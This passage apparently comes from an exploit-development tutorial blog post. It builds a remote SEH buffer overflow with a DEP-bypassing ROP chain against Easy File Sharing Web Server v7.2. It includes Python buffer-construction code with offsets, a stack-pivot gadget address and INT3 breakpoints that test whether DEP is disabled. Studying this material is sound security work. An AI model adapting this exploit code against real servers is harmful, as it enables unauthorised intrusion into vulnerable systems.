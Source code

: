 Those `INC EDX` are really ugly and annoying, but, quickly looking around for a better solution available, I actually didn't find anything nicer. Luckily we have a massive buffer in our disposal, so we can be a bit sloppy...

We are almost there! To quickly test wether we are actually disabling DEP or not, let's modify our buffer a bit:

{% codeblock lang:python %}
# Offsets
rop_offset = 2455
max_size = 5000
seh_offset = 4059
eax_offset = 4183

buffer = "A" * rop_offset						# padding
buffer += create_rop_chain()
buffer += "\xCC\xCC\xCC\xCC"					# couple INT3 instructions, which will act as a breakpoint (only if DEP is disabled)
buffer += "A" * (seh_offset - len(buffer))		# padding
buffer += "BBBB"								# overwrite nSEH pointer
buffer += struct.pack("<I", 0x1002280a)			# overwrite SEH record with stack pivot (ADD ESP,1004 # RETN [ImageLoad.dll])
buffer += "A" * (eax_offset - len(buffer))		# padding
buffer += struct.pack("<I", 0xffffffff)			# overwrite EAX to always trigger an exception
buffer += "A" * (max_size - len(buffer))		# padding
{% endcodeblock %}

Let's put it all together and launch our exploit. If we were successful in disabling DEP, the program should automatically break on the INT3 instructions we added right after the ROP chain.

[![success_rop PNG](/images/posts/2015-11-25-easy-file-sharing-web-server-v7-dot-2-remote-seh-buffer-overflow-dep-bypass-with-rop/success_rop.png)](/images/posts/2015-11-25-easy-file-sharing-web-server-v7-dot-2-remote-seh-buffer-overflow-dep-bypass-with-rop/success_rop.png)
